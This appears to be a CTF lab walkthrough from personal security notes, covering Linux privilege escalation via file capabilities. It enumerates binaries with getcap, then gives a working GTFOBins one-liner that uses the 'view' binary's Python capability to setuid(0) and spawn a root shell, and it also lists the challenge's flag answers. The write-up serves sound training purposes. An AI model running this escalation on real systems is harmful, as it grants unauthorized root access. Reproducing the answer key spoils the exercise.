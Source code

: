 ## Privilege Escalation Capabilities Solution

### How many binaries have set capabilities?

1. Run the following command to list enabled capabilities

`getcap -r / 2>/dev/null`

![Screenshot 2024-02-08 at 1 16 42 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/1b2cf992-c502-421a-9021-2b13e46733dc)


**Answer: 6**

### What other binary can be used through its capabilities?
1. Go to GTFO to check which binaries can be exploited via capabilities [https://gtfobins.github.io/#+capabilities](https://gtfobins.github.io/#+capabilities)
2. From GTFO we can see that from the list of enabled capabilities (see above) `view` can be used.

**Answer: view**

### What is the content of the flag4.txt file? ###
1. Execute the following command based from GTFO. Don't forget to prepend `py3` as py is not supported for the machine. 
```
cp $(which view) .
./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

2. Exit vim

3. Run `cat /home/ubuntu/flag4.txt`

**Answer: THM-9349843**
